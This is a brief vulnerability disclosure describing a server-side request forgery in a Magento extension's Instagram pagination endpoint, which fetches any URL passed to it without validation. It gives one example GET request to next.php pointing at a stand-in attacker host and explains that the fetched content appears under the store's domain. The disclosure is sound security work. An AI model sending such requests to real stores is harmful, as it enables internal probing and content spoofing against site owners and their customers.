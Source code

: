 # Server side request forgery

## Method 1: Instagram integration

The extension supports fetching content from Instagram.
Instagram's API paginates long lists of data by sending a `next_url` parameter informing the client where to find the next page of results.
The extension contains an endpoint to fetch content for this usecase, but it does not validate the url before fetching it in any way.

In effect, passing any URL to this endpoint causes an HTTP GET request to be sent to that URL, and the response to be displayed directly in the browser.

### Request:
```
GET https://testing.local.tld/js/pdp/instagram/next.php?url=http://evilsite.com HTTP/1.1

```
_note that the .php file is stored under /js/, not in /app/_

### Response body:

The result of the request.

The browser continues to display the original Magento store URL in the address bar,
but the displayed content depends completely on the remote site.  
